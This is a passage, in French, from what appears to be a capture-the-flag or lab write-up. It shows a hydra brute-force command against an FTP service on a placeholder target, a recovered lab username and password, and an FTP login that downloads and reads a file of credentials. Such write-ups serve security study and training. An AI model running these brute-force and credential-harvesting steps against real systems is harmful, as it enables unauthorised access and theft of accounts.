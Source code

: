 Pour cette attaque brute-force, nous utilisons `hydra` pour tester les mots de passe de la liste sur le service FTP.

```bash
hydra -l <ftpuser> -P <la_liste_de_mot_de_passe.txt> ftp://<target> -vv
```

L'attaque de brute-force trouve avec succès le mot de passe pour l'utilisateur banane_celeste.

- Nom d'utilisateur : `banane_celeste`
- Mot de passe : `4nndoLjgyBEOFSlDivNC`

![Nom d'utilisateur FTP](images/Musa/10.png)

- Nous nous connectons au serveur FTP à l'aide des informations d'identification découvertes.

```bash
ftp <target>
```

![Nom d'utilisateur FTP](images/Musa/11.png)

- Après avoir téléchargé le fichier 2022 Valerian's_Creds.txt du serveur FTP, nous l'examinons pour trouver des informations ou des indices supplémentaires.

```bash
get Valerian's Creds.txt
```

```bash
cat Valerian\'s_Creds.txt
```
